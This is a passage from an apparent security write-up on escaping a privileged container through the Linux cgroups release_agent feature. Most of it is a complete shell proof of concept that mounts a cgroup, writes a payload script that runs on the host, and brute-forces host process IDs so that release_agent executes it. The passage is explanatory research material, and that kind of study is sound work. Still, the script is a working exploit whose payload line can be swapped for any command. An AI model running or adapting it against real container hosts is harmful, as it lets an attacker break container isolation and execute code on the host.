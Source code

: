 To complete this attack the brute force technique can be used to guess the pid for the path `/proc/<pid>/root/payload.sh`, with each iteration writing the guessed pid path to the cgroups `release_agent` file, triggering the `release_agent`, and seeing if an output file is created.

The only caveat with this technique is it is in no way shape or form subtle, and can increase the pid count very high. As no long running processes are kept running this _should_ not cause reliability issues, but don’t quote me on that.

The below PoC implements these techniques to provide a more generic attack than first presented in Felix’s original PoC for escaping a privileged container using the cgroups `release_agent` functionality:

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done
```